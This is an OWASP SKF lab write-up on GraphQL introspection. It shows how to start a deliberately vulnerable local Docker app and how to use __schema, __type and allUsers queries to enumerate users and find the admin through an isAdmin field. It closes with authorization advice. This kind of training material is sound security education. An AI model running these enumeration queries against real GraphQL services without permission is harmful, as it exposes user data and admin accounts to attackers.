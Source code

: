 # KBID 285 - GraphQL introspections

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:graphql-introspections
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:graphql-introspections
```

Or alternatively build yourself! 

```sh
docker build . -t graphql/introspections && docker run -ti -p 5000:5000 graphql/introspections
```

The docker should be up in no time and we should now be able to browse the application on `http://0.0.0.0:5000/`


{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker Image and write-up thanks to defev!](.gitbook/assets/logo.defdev.1608z.whtonblk.256.png)


## Reconnaissance 

As soon as we browse on `http://0.0.0.0:5000` we see the few posts published by 2 users

![](.gitbook/assets/graphql-introspection1.png)


## Exploitation 

We want to use the introspection feature (enabled) in this case, to understand more about what queries are supported. 


Let' use the `GraphiQL` UI to send queries to the backend and discover what is available. 

Go to `http://0.0.0.0:5000/graphql`. We can query the generic `__schema` using:

```
{
  __schema {
    types {
      name
    }
  }
}
```

The application gives us interesting `Types`. Let's explore the `UserObject` one. If we build a more complex query we can ask for more information, exploring every field available. Let's send the following:

```
{
  __type(name: "UserObject") {
    name
    fields {
      name
      type {
        name
        kind
        ofType {
          name
          kind
        }
      }
    }
  }
}
```
In this case, for each field we we want to know what are the subfields and of which type.

The application will answer with:

```json
{
  "data": {
    "__type": {
      "name": "UserObject",
      "fields": [
        {
          "name": "uuid",
          "type": {
            "name": null,
            "kind": "NON_NULL",
            "ofType": {
              "name": "ID",
              "kind": "SCALAR"
            }
          }
        },
        {
          "name": "username",
          "type": {
            "name": "String",
            "kind": "SCALAR",
            "ofType": null
          }
        },
        {
          "name": "isAdmin",
          "type": {
            "name": "Boolean",
            "kind": "SCALAR",
            "ofType": null
          }
        },
        {
          "name": "posts",
          "type": {
            "name": "PostObjectConnection",
            "kind": "OBJECT",
            "ofType": null
          }
        },
        {
          "name": "id",
          "type": {
            "name": null,
            "kind": "NON_NULL",
            "ofType": {
              "name": "ID",
              "kind": "SCALAR"
            }
          }
        }
      ]
    }
  }
}
```
> BINGO! We have some good information here

We can see that there is an interesting field `isAdmin`, that we can use to find out who is the admin of the application. 
 

Now we just need to query all the Users. To do that, let's see if there is a query available. We can use the following syntax:

```
query availableQueries {
  __schema {
    queryType {
      fields {
        name
        description
      }
    }
  }
}
```

That will give us the `allUsers` query. Now we need to understand what are the fields. We can do that in different ways, using GraphiQL or doing some more introspection. In this case we use GraphiQL, sending the following query:

```
{
  allUsers {
    edges {
      node {
        username
        isAdmin
      }
    }
  }
}

```

## Solution

Implement authorization on graphql endpoint. Although authenticated users could query the information, you should not map sensitive information into the type defined into the schema.


## Additional resources